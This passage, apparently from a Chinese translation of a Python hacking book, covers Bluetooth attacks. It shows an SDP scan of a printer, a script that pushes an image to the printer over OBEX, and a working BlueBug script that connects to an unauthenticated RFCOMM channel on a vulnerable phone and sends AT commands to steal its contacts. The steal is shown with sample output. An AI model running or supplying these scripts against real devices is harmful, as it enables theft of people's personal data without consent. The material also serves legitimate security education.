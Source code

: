 当我们运行我们的脚本针对我们的打印机蓝牙，我们看到 RFCOMM 端口 2 提供 OBEX 对象推送功能。对象交换服务(OBEX)让我们有类似与 FTP 匿名登陆的的能力，我们可以匿名的上传和下载文件从系统里面，这可能是打印机上值得进一步研究的东西。

```py
attacker# python sdpScan.py
[+] Found Serial Port on RFCOMM:1
[+] Found OBEX Object Push on RFCOMM:2
[+] Found Basic Imaging on RFCOMM:3
[+] Found Basic Printing on RFCOMM:4
[+] Found Hardcopy Cable Replacement on L2CAP:8193 
```

## 用 Python ObexFTP 接管打印机

让我们继续对打印机进行攻击。因为它在 RFCOMM 的端口 2 上提供了 OBEX 服务，让我们尝试推送一个照片上去。我们使用`obexftp`连接打印机，接着我们从攻击者的主机上发送一个图片给它。当文件传输成功，我们的打印机开始为我们打印图像。这太令人兴奋了！但不一定是危险的，所以我们将继续在下一节中使用这种方法对提供蓝牙的手机实施更致命的攻击。

```py
import obexftp
try:
    btPrinter = obexftp.client(obexftp.BLUETOOTH)
    btPrinter.connect('00:16:38:DE:AD:11', 2)
    btPrinter.put_file('/tmp/ninja.jpg')
    print('[+] Printed Ninja Image.')
except:
print('[-] Failed to print Ninja Image.') 
```

## 用 Python BlueBug 手机

在本节中，我们将重现一个最近的手机蓝牙攻击向量。最初被称为 BlueBug 攻击，该攻击使用未认证的和不安全的连接手机偷取手机的详细信息或者直接向手机发送指令。这个攻击使用 RFCOMM 信道发送 AT 命令作为远程控制设备的工具。者允许攻击者读写短信，收集个人信息或者拨打号码。

例如，攻击者可以控制一个诺基亚 6310i 通过 RFCOMM 的 17 信道。在以前这这手机的固件版本，RFCOMM 信道 17 不需要身份验证便可连接，攻击者可以简单的扫描 RFCOMM 打开的信道发现 17 信道，连接并且发送 AT 命令下载电话号。 让我们用 Python 来重现这次攻击。再一次，我们需要导入 Python 的`Bluez`API 模块。确认我们的目标地址和脆弱的 RFCOMM 端口之后，我们创建一个到开放，未经验证，未加密的连接。使用这个新创建的连接，我们发送一个命令，例如`"AT+CPBR=1"`来下载通讯录的第一个号码，重复次命令偷取全部的通讯录。

```py
import bluetooth

tgtPhone = 'AA:BB:CC:DD:EE:FF'
port = 17
phoneSock = bluetooth.BluetoothSocket(bluetooth.RFCOMM)
phoneSock.connect((tgtPhone, port))
for contact in range(1, 5):
    atCmd = 'AT+CPBR=' + str(contact) + '\n'
    phoneSock.send(atCmd)
    result = phoneSock.recv(1024)
    print '[+] ' + str(contact) + ': ' + result
phoneSock.close() 
```

针对脆弱的手机运行我们的脚本，我们可以从受害者手机上下载五个联系人的电话号码。不到五十行的代码，我们可以通过蓝牙远程窃取通讯录电话号码。棒极了！

```py
attacker# python bluebug.py
[+] 1: +CPBR: 1,"555-1234",,"Joe Senz"
[+] 2: +CPBR: 2,"555-9999",,"Jason Brown"
[+] 3: +CPBR: 3,"555-7337",,"Glen Godwin"
[+] 4: +CPBR: 4,"555-1111",,"Semion Mogilevich"
[+] 5: +CPBR: 5,"555-8080",,"Robert Fisher 
```

## 本章总结

恭喜你！在这一章我们已经编写了很多工具，我们可以用它们来设计无线网络和蓝牙设备。我们从通过无线网络截获私人信息开始。接下来，我们研究如何分析 802.11 无线流量，为了发现首选网络和隐藏的接入点。然后，我们紧急迫降了一个无人机并建立了一个工具识别无线网络黑客工具。对于蓝牙协议，我们我们建立了一个工具来查找蓝牙设备，扫描并渗透攻击了打印机和手机。 希望你喜欢这一章。我喜欢编写这些。下一章，我们将讨论在开源的网络社交媒体上使用 Python 进行侦查。
